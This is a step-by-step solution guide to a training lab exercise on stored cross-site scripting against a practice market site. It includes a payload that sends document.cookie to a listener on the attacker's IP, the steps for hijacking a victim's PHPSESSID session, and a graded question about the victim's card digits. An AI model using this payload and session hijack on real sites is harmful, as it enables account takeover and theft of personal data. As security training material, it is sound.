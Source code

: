 # Web Application Penetration Testing: Cross-Site Scripting (XSS)

## Mini-challenge Solution Guide

1. (**Kali**) Open the `Kali` console and login with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. 

3. (**Kali, Firefox**) Click the `SITE FEEDBACK` link on the top navigation menu. This is the feature we will exploit with a stored cross-site scripting attack.  

![feedback](./img/feedback.png)

4. (**Kali, Terminal**) Before providing our site feedback, we want to set up a simple web server as a listener to see if our malicious script can capture any session cookies. Open a terminal window and enter the following command to start a Python web server that is listening on port 80.

```
python3 -m http.server 80
```

![pythonserver](./img/pythonserver.png)

5. (**Kali, Terminal**) Open a new terminal window on your Kali VM and get your IP address by typing `ip a` then hitting enter. Your IP address will the address attached to the `eth0` network interface. In this case, the IP address is `10.5.5.56`, but your IP address may be different. Take note of this IP address as we will need it in the next step.

![getip](./img/getip.png)

6. (**Kali, Firefox**) Go back to the feedback page on the market web site. The `Leave feedback` text box looks like a great place for a potential place to inject and store malicious JavaScript. Enter the following text in the `Leave feedback` field, making sure to replace the IP address of `10.5.5.56` with your IP address that was obtained in the previous step.

```
<script>fetch('http://10.5.5.56/?c='+document.cookie)</script>
```

7. (**Kali, Firefox**) Click the `Submit Feedback` button to add your feedback to the market site. You will see a blank entry under anonymous (assuming you didn't log in) and you will see a session key pop up in the console window.

8. (**Kali, Terminal**) Return to the terminal where you started the web server. You should be able to confirm that you are capturing session ids from cookies. 

9. (**Kali, Firefox**) Open a new tab and navigate to `https://skills.hub/lab/tasks`. Click the `Submit` button. 

![taskspage](./img/taskspage.png)

10. You should see this page when the victim user login is complete:

![tasksuccess](./img/tasksuccess.png)

11. (**Kali, Terminal**) Return to the terminal where you started the web server. You should be able to confirm that you have captured a new session id from a logged in user who viewed your review. It will be from IP `10.5.5.5`.

12. (**Kali, Terminal**) Copy the `PHPSESSID` cookie value.

![stolentoken](./img/stolentoken.png)

13. (**Kali, Firefox**) Open a new browser tab and navigate to `http://market.skills.hub`. 

14. (**Kali, Firefox**) In the top right corner click the hamburger icon, **More tools**, then **Web Developer Tools**.

![firefoxtools](./img/firefoxtools.png)

15. (**Kali, Firefox**) From the web developer tools, locate your cookies by clicking on the `Storage` tab then expanding the `Cookies` list. Open the cookie named `PHPSESSID`. 

![pasteindevtools](./img/pasteindevtools.png)

16. (**Kali, Firefox**) Edit this value to use the `PHPSESSID` value your obtained in step 14.

17. (**Kali, Firefox**) Navigate to Home on the market web site. You are now impersonating the logged in user whose session you just hijacked.

![loggedinasvictim](./img/loggedinasvictim.png)

18. (**Kali, Firefox**) Go to the user's profile page and view the last 4 digits of their credit card number. Submit this 4-digit value for the grading check.

![profilepage](./img/profilepage.png)

**Grading Check Question 1**: *What are the last 4 digits of the impersonated market user's credit card?*
